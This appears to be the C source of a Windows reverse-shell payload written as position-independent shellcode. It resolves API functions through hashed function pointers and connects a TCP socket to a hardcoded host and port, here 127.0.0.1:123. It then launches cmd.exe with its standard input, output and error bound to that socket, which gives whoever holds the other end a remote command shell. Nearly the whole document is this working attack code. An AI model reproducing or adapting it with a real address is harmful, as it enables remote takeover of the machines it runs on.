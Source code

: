 ```
int entryPoint() {
//  printf("0x%08x\n", getFunctionHash("kernel32.dll", "WaitForSingleObject"));
//  return 0;
 
    // NOTE: we should call WSACleanup() and freeaddrinfo() (after getaddrinfo()), but
    //       they're not strictly needed.
 
    DefineFuncPtr(LoadLibraryA);
 
    My_LoadLibraryA("ws2_32.dll");
 
    DefineFuncPtr(WSAStartup);
    DefineFuncPtr(WSASocketA);
    DefineFuncPtr(WSAConnect);
    DefineFuncPtr(CreateProcessA);
    DefineFuncPtr(inet_ntoa);
    DefineFuncPtr(inet_addr);
    DefineFuncPtr(getaddrinfo);
    DefineFuncPtr(getnameinfo);
    DefineFuncPtr(ExitThread);
    DefineFuncPtr(WaitForSingleObject);
 
    const char *hostName = "127.0.0.1";
    const int hostPort = 123;
 
    WSADATA wsaData;
 
    if (My_WSAStartup(MAKEWORD(2, 2), &wsaData))
        goto __end;         // error
    SOCKET sock = My_WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    if (sock == INVALID_SOCKET)
        goto __end;
 
    addrinfo *result;
    if (My_getaddrinfo(hostName, NULL, NULL, &result))
        goto __end;
    char ip_addr[16];
    My_getnameinfo(result->ai_addr, result->ai_addrlen, ip_addr, sizeof(ip_addr), NULL, 0, NI_NUMERICHOST);
 
    SOCKADDR_IN remoteAddr;
    remoteAddr.sin_family = AF_INET;
    remoteAddr.sin_port = htons(hostPort);
    remoteAddr.sin_addr.s_addr = My_inet_addr(ip_addr);
 
    if (My_WSAConnect(sock, (SOCKADDR *)&remoteAddr, sizeof(remoteAddr), NULL, NULL, NULL, NULL))
        goto __end;
 
    STARTUPINFOA sInfo;
    PROCESS_INFORMATION procInfo;
    SecureZeroMemory(&sInfo, sizeof(sInfo));        // avoids a call to _memset
    sInfo.cb = sizeof(sInfo);
    sInfo.dwFlags = STARTF_USESTDHANDLES;
    sInfo.hStdInput = sInfo.hStdOutput = sInfo.hStdError = (HANDLE)sock;
    My_CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sInfo, &procInfo);
 
    // Waits for the process to finish.
    My_WaitForSingleObject(procInfo.hProcess, INFINITE);
 
__end:
    My_ExitThread(0);
 
    return 0;
```